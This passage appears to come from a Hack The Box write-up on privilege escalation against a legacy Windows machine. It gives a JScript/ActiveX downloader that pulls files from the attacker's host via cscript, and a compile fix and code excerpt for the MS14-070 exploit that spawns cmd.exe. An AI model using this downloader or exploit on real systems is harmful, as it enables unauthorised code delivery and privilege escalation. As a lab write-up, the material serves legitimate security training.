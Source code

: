```
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```

But before we do any kind of exploitation, we need a way to get files onto the box. On older versions of windows like this one, there is no powershell, no curl, no wget. After some searching around, I stumbled across a method using cscript to execute a javascript downloader.

```
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile("out.bin");
```
Where `out.bin` is changed to the name of the executable we want to download. 

I build it into `%TMP%` by echoing the script line by line. Not the prettiest solution, but it works.

To download a file over http, we simply run `cscript.exe http://10.10.14.2/filename`.

Getting back to privesc, the exploit I've chosen to go with is ms14-070, located on exploitdb as `37755.c`.

I always like to do a quick cursory look at the contents of the exploit so I get somewhat of an idea of what payload gets executed
> You need to change: 
> `typedef DOUBLE NTSTATUS;` to `typedef LONG NTSTATUS;`

```
BOOL WINAPI CreateNewCmdProcess (STARTUPINFO *startupInformation, PROCESS_INFORMATION *processInformation)
{
        ZeroMemory (&startupInformation[0], sizeof (STARTUPINFO));
        startupInformation->cb = sizeof (STARTUPINFO);
        ZeroMemory (&processInformation[0], sizeof (PROCESS_INFORMATION));

        // Start the child process.
        return CreateProcess (
                NULL,                                                           // No module name (use command line)
                "c:\\windows\\system32\\cmd.exe /k c:\\windows\\system32\\cmd.exe",   // Start cmd.exe
                NULL,                                                           // Process handle not inheritable
                NULL,                                                           // Thread handle not inheritable
                TRUE,                                                           // Set handle inheritance to TRUE
                0,                                                              // No creation flags
                NULL,                                                           // Use parent's environment block
                NULL,                                                           // Use parent's starting directory
                &startupInformation[0],                                         // Pointer to STARTUPINFO structure
                &processInformation[0]                                          // Pointer to PROCESS_INFORMATION structure
        );
```